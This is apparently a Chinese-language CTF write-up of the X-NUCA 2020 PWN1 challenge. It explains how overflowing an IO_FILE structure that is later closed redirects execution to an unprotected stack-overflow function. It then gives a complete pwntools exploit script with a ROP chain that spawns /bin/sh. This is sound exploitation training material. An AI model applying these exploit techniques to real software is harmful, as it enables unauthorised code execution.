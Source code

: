 ```yaml
---
title: X-NUCA 2020 个人赛 PWN1
date: 2020-12-10 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 32位静态链接程序，开了canary和NX，可以溢出可控的IO_FILE结构体，之后会fclose该结构体，所以非常容易控制流劫持。但因为静态链接，也没有后门函数，只能靠系统调用，但因为没法控制栈，也就没法找到一条gadget就能完成execve("/bin/sh",0,0)的。比赛时没做出来，比赛后发现他还有个没有canary可以输入的栈溢出函数，控制流劫持到这然后ROP就完了。

附件：[pwn1](https://xuanxuanblingbling.github.io/assets/attachment/xnuca/pwn1)

这个函数在`0x0804A0C0`：

```c
int garbage()
{
  char v1; // [esp+Ch] [ebp-1Ch] BYREF

  return _isoc99_scanf("%s", (char)&v1);
}
```

并且没有函数调用，不愧是垃圾函数：

![image](https://xuanxuanblingbling.github.io/assets/pic/xnuca/garbage.png)

不过后来想想其实可以找到这个函数的，找找输入函数的交叉引用，这也算个经验吧：

![image](https://xuanxuanblingbling.github.io/assets/pic/xnuca/scanf.png)

最终exp如下：

```python
from pwn import *
context(arch='x86',os='linux',log_level='debug')
myelf = ELF("./pwn1")
io = process(myelf.path)

# a vul function can be stackoverflowed and have no canary
hijack_addr = 0x0804A0C0 
iofile_addr = 0x08104ce4
iofile_stuct =  p32(0xffffdfff)
iofile_stuct += '\x00'*0x90
iofile_stuct += p32(iofile_addr+0x98)
iofile_stuct += 'a'*8
iofile_stuct += p32(hijack_addr)*10

# overflow the file pointer and tigger close(file)
payload = '/bin/sh\x00'+'a'*24+p32(iofile_addr)+iofile_stuct
io.recv();io.sendline(payload)
io.recv();io.sendline("3")

# stack overflow and rop 
bin_sh   = 0x08104CC0
gadget1  = 0x08066038 # pop eax ; pop edx ; pop ebx ; ret
gadget2  = 0x0808f26e # inc eax ; ret
gadget3  = 0x0804ab3f # xor ecx, ecx ; int 0x80
payload  = 'a'*32+p32(gadget1)+p32(0x8)+p32(0)+p32(bin_sh)+p32(gadget2)*3+p32(gadget3)
io.sendline(payload)
io.interactive()
```